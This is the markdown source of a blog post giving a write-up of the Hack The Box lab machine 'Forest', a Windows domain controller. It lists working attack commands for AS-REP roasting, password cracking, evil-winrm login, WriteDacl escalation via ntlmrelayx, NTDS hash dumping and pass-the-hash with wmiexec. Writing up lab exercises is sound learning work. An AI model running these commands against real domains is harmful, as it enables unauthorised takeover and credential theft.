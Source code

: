 ```yaml
---
permalink: /posts/HTB/Forest
title: "HTB Forest Write-up"
header-img: "/assets/images/HTB/Forest/InfoCard.jpg"
header:
  teaser: "/assets/images/HTB/Forest/InfoCard.jpg"
description: "Hackthebox's Forest is an easy-rated Windows box that acts as the domain controller for the htb.local domain."
categories: 
  - CTF
date: 2020-03-21 17:28
tags: HTB Windows AD DACL BloodHound
---
```


# Hackthebox - Forest - 10.10.10.161
## Summary
Today [Hackthebox](https://www.hackthebox.eu) retired Forest, an easy-rated Windows box that acts as the domain controller for the htb.local domain. This was a great learning experience since Forest was my first Windows Domain Controller, and I got a chance to learn how to use Impacket's AD-oriented scripts, as well as getting familiar with BloodHound and SharpHound.
Here's my write-up.
>*Note that the screenshots are taken today (2020-03-21) because I didn't do a proper write-up during my first run on Forest, so I had to do another run on it today to properly document the process.*

![InfoCard](/assets/images/HTB/Forest/InfoCard.jpg)

## Enumeration

For an initial scan I used the following nmap command 
```
nmap -A -sV -o nmapinitial -T4 10.10.10.161
```
![nmapinitial01](/assets/images/HTB/Forest/nmapinitial01.jpg)
![nmapinitial02](/assets/images/HTB/Forest/nmapinitial02.jpg)

The nmap scan reveals that the machine is a domain controller for the htb.local domain judging by the 2 LDAP services ports (389 and 3268).
Even if the smb port is opened, attempting to list shares using smbclient does not list anything without proper authentication. 

While nmap was running, I also kicked off enum4linux to get a better idea of users, groups, service accounts, and accessible network shares.
```
enum4linux -o -U -G -S -P 10.10.10.161 > enum4linux.txt
```
Once finished, enum4linux returns some useful information about the target.
For starters, it looks like there's no propper password complexity policy put in place, meaning that, if I'm able to obtain a hash, it should be failry easy to crack since nothing is forcing users to set complex passwords.

![enum4linux_passpolicy](/assets/images/HTB/Forest/enum4linux_passpolicy.jpg)

The local user accounts where retunred, including a service account - svc-alfresco

![enum4linux_users](/assets/images/HTB/Forest/enum4linux_users.jpg)

This also shows the fact that the target is running Microsoft Exchange Server, which might be a path for privilege escalation.

## Initial Foothold and User Flag

After reading a bit through the [Forest HTB Forum](https://forum.hackthebox.eu/discussion/2319/forest#latest) thread, I saw a few hints pointing towards Impacket's GetNPUsers.py script (more examples on kerberos attacks can be found [here](https://www.tarlogic.com/en/blog/how-to-attack-kerberos/)).
I've tried running the script against all the users i've found using enum4linux, and the only one that did not require Kerberos pre-authentication was svc-alfresco os I was able to get its TGT with the following command 
```
python ~/Scripts/Impacket/impacket-0.9.20/examples/GetNPUsers.py htb.local/svc-alfresco -no-pass -dc-ip 10.10.10.161 -format john
```
![TGThash](/assets/images/HTB/Forest/TGThash.jpg)

Which I then proceede to crack using john.

![john](/assets/images/HTB/Forest/john.jpg)

It looks like the password for svc-alfresco is __s3rvice__ and I am able to use it with evil-winrm 
```
evil-winrm -i 10.10.10.161 -u svc-alfresco -p 's3rvice' -s './ps1_scripts/' -e './exe_files/'
```
and get the user flag.

![userflag](/assets/images/HTB/Forest/userflag.jpg)

## Privilege escalation

A forum user hinted that [BloodHound's](https://github.com/BloodHoundAD/BloodHound) SharpHound.exe ingestor (I couldn't get SharpHound.ps1 to run through evil-winrm) can be used to get a better idea of what the shortest route to DA would be.
So I booted my Windows VM, started CMD as svc-alfresco and executed SharpHound.exe.

![SharpHound_exe](/assets/images/HTB/Forest/SharpHound_exe.jpg)

I then move the resulting .zip file to my Kali VM, fire up neo4j console and bloodhound, and import the zip file into BloodHound for querying.
The "Find Shortest Paths to Domain Admins" query shows that I can use the fact that svc-alfresco is a member of the Account Operators group to add either the service account itself or a newly created account to the Exchange Windows Permissions group, whose WriteDacl access on the Domain object in Active Directory can be used to escalate to DA, as outlined [here](https://www.andreafortuna.org/2019/01/30/abusing-microsoft-exchange-for-privilege-escalation-any-user-may-obtain-domain-admin-privileges/).

![BloodHound](/assets/images/HTB/Forest/BloodHound.jpg)

I picked the route of creating a separate user account that I can add to the Exchange Windows Permissions group.
I connect with evil-winrm as svc-alfresco to create the following user account and add it to all the required groups:
```
New-ADUser -Name "TestUser" -Type User -AccountPassword (ConvertTo-SecureString -AsPlainText "p@ssw0rd" -Force) -Enabled $True
Add-AdGroupMember -Identity  "Remote Desktop Users" -Members TestUser
Add-AdGroupMember -Identity  "Remote Management Users" -Members TestUser
Add-AdGroupMember -Identity  "Exchange Windows Permissions" -Members TestUser
```
After that, I can use Impacket's ntlmrelayx.py to escalate TestUser's privileges
```
python ntlmrelayx.py -t ldap://10.10.10.161 --escalate-user TestUser
```
![TestUser_privesc](/assets/images/HTB/Forest/TestUser_privesc.jpg)

Now I can use Impacket's secretsdump.py with TestUser's credentials to dump all the password hasses contained in the NTDS.DIT file on 10.10.10.161.

![hashes](/assets/images/HTB/Forest/hashes.jpg)

With the Admin hash obtained through secretsdump.py, I can use wmiexec.py to connect as Administrator 
```
python wmiexec.py -hashes aad..4ee:326..ea6 Administrator@10.10.10.161
```

![adminroot](/assets/images/HTB/Forest/adminroot.jpg)

And remove the TestUser account.

![delete_testuser](/assets/images/HTB/Forest/delete_testuser.jpg)
